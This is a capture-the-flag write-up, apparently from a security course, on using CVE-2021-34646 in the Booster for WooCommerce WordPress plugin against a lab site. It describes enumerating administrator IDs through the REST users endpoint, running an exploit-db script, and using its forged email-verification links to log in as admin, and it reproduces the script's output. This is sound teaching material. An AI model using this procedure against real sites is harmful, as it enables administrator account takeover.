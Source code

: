 # WordPress CVE

## 1st flag

Upon accessing http://ctf-fsi.fe.up.pt:5001, which redirects to a website hosted by WordPress, we started investigating the several pages in search of potential clues.
Since the platform appeared to be a virtual store, we decided to check out the services for sale. 
That is when we stumbled across the following user-review:

![img.png](../images/review.png)

This led us to believe that we could exploit vulnerabilities in the plugins to hack the server.
By clicking on a tab beside the review, we discovered all the plugins and respective versions:

![img.png](../images/wordpress_plugins.png)

With the newly acquired information, we opened [CVEdetails.com](https://www.cvedetails.com/) to discover the CVEs associated with each plugin.
Considering our objective, we focused on vulnerabilities that allowed authentication bypassing.

After a thorough examination, we came across a Booster for Woocommerce entry whose description mentioned logging in as other users, including administrators: [CVE-2021-34646](https://www.cvedetails.com/cve/CVE-2021-34646/).
Considering this vulnerability only existed in versions `5.4.3` and below of Booster, it affected the website. Inputting `flag{CVE-2021-34646}`, we overcame the first challenge.

## 2nd flag

Having discovered the CVE we would use to exploit the website, we conducted a quick Google search and found [this](https://www.exploit-db.com/exploits/50299) page.
It was an Exploit Database entry for the vulnerability which, among more details about the CVE, contained a set of instructions for exploiting it:

* **1 -** Access http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ in order to obtain the user id of an administrator.
Since the link redirected us to a JSON document, we searched for the `id` attribute and found out the integer `1` was the id of an administrator.
* **2 -** Download a [Python script](./exploit_CVE-2021-34646.py) and execute it as such:
```shell
python ./exploit_CVE-2021-34646.py http://ctf-fsi.fe.up.pt 1
```
In short, the attack consists in the creation of login validation links with a key encoded in Base64 based on the current timestamp.
Below is the output of running the script:

```commandline
Timestamp: Sun, 08 Oct 2023 15:55:00 GMT
Timestamp (unix): 1696780500

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash f70c7ebdf95ed7d5fe4a19bcc649c67a:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZjcwYzdlYmRmOTVlZDdkNWZlNGExOWJjYzY0OWM2N2EifQ

#1 link for hash 4218280efa71508291581504239678e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDIxODI4MGVmYTcxNTA4MjkxNTgxNTA0MjM5Njc4ZTgifQ

#2 link for hash d6df3f11a406f8a2e456378b27d60587:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiZDZkZjNmMTFhNDA2ZjhhMmU0NTYzNzhiMjdkNjA1ODcifQ
```

* **3 -** Use one of the generated links to log in to the system as an administrator.

After successfully hijacking the administrator's account, we accessed http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php as instructed in the CTF guide.
There we found the final flag: ```flag{please don't bother me}```.
